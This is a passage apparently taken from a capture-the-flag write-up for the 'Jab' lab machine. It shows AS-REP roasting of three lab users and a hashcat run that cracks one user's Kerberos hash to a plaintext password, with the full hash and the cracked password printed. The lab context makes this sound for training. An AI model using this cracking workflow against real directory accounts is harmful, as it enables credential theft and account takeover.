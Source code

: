 ![](img/jab18.png)

Three users are kerberostable:
- jmontgomery
- lbradford
- mlowe

AS-REP tickets are saved in a file and bruteforce is attempted.

```shell
$ hashcat -m 18200 usersASREP.txt /usr/share/wordlists/rockyou.txt
[...]
$krb5asrep$23$jmontgomery@JAB.HTB:691658bc2c695fe62003da740453b79a$c96bad2cf3d17594edb4bcabe0fee4fd1acc6c0d7350c0ee456646d3678f9c3e725c748a89c050ecbe65ffae0c9166735509e48c2479023c881fb1f2567c4fdfaa7b75a37aab50b4ab2d41ca5924c50cbf7abe19fbfcfa8e5f13213144535ddf951f734295f20a8e8c7bab0ff1700bfb9b25e0dc89f6289703277ccbd7cc7cd9f1b195155a6c1d17349523d19219b4a4c2956cf2cb473c38ca1c20e223e407a952ea7b788b98b4a80b1e8a150b73be85deabfa971bd7d19f1d06e13ec97691161abf003b53c68e488a880f7a6ba7855d9018ec480f8c0a0b5fffaf7e5c5fc9b6e7db:Midnight_121
Approaching final keyspace - workload adjusted.           

                                                          
Session..........: hashcat
Status...........: Exhausted
Hash.Mode........: 18200 (Kerberos 5, etype 23, AS-REP)
Hash.Target......: usersTGS.txt
Time.Started.....: Wed Feb 28 15:48:29 2024 (58 secs)
Time.Estimated...: Wed Feb 28 15:49:27 2024 (0 secs)
Kernel.Feature...: Pure Kernel
Guess.Base.......: File (/usr/share/wordlists/rockyou.txt)
Guess.Queue......: 1/1 (100.00%)
Speed.#1.........:   615.0 kH/s (0.86ms) @ Accel:256 Loops:1 Thr:1 Vec:4
Recovered........: 1/3 (33.33%) Digests (total), 1/3 (33.33%) Digests (new), 1/3 (33.33%) Salts
Progress.........: 43033155/43033155 (100.00%)
Rejected.........: 0/43033155 (0.00%)
Restore.Point....: 14344385/14344385 (100.00%)
Restore.Sub.#1...: Salt:2 Amplifier:0-1 Iteration:0-1
Candidate.Engine.: Device Generator
Candidates.#1....: $HEX[206b72697374656e616e6e65] -> $HEX[042a0337c2a156616d6f732103]
Hardware.Mon.#1..: Util: 38%

Started: Wed Feb 28 15:48:07 2024
Stopped: Wed Feb 28 15:49:29 2024
```
